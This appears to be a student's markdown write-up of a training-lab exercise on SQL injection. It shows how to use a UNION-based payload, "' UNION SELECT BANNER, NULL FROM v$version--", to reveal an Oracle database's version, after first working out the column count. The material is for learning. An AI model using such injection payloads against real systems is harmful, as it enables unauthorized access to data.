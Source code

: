 #### Lab: SQL injection attack, querying the database type and version on Oracle

Require of lab:
> Make the database retrieve the strings: 'Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production, PL/SQL Release 11.2.0.2.0 - Production, CORE 11.2.0.2.0 Production, TNS for Linux: Version 11.2.0.2.0 - Production, NLSRTL Version 11.2.0.2.0 - Production'

The SQL UNION operator is used to combine the result-set of two or more SELECT statement
We use UNION operator to let our sql statement bind to the page's sql statement

Query database version of Oracle:
>SELECT banner FROM v$version

Check number of columns that are being return by the query => Number of columns = 2
![[Pasted image 20221207131757.png]]

Add query database version of orcale to the url
> ' UNION SELECT BANNER, NULL FROM v$version--

Add **'** to end the statement is called, add **--** to comment the the rest of the statement is called

![[Pasted image 20221207132839.png]]